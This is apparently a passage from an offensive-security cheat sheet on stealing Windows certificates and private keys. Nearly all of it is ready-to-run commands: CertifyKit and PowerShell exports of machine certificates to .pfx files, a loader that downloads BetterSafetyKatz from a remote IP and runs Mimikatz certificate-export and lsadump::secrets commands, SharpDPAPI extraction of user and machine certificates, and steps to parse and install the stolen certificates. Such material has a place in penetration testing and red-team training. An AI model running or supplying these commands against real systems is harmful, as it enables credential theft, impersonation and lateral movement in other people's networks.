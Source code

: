 ```
C:\Users\Public\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:CERTIFICATE_HASH /outfile:C:\Users\Public\USER.pfx
CertifyKit.exe list /certificate:CERTIFICATE_HASH /base64
```

Using Mimikatz:

```
C:\Users\Public\Loader.exe -path http://IP/BetterSafetyKatz.exe -args "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"
```

Using Powershell:

```
$mypwd = ConvertTo-SecureString -String "PASSWORD" -Force -AsPlainText
Export-PfxCertificate -Cert Cert:\LocalMachine\My\CERTIFICATE_HASH -FilePath C:\Users\Public\USER.pfx -Password $mypwd
```

<br>

### <a name="17"></a>1.7 &nbsp;&nbsp; Export - DPAPI (THEFT2 and THEFT3)

Export certificates from the User:

```
C:\Users\Public\SharpDPAPI.exe certificates
C:\Users\Public\SharpDPAPI.exe certificates /password:PASSWORD
```

Export certificates from the Machine:

```
C:\Users\Public\SharpDPAPI.exe certificates /machine
lsadump::secrets
crypto::certificates /export /systemstore:LOCAL_MACHINE
```


<br>

### <a name="18"></a>1.8 &nbsp;&nbsp; Parse

```
certutil -dump -v C:\Users\certstore\OpenVPN\config\CERT.pem
certutil -v -dump C:\Certs\USER.pfx
certutil -v -dump -p "PASSWORD" C:\Certs\CERT.pfx
```

<br>

### <a name="19"></a>1.9 &nbsp;&nbsp; Install

```
C:\Users\Public\CertifyKit.exe list /certificate:C:\Users\Public\CERT.pfx /password:PASSWORD /install
certutil -user -store My
C:\Users\Public\CertifyKit.exe list /certificate:C:\Users\USER\EncryptedFiles\USER.pfx /storename:My /install
```
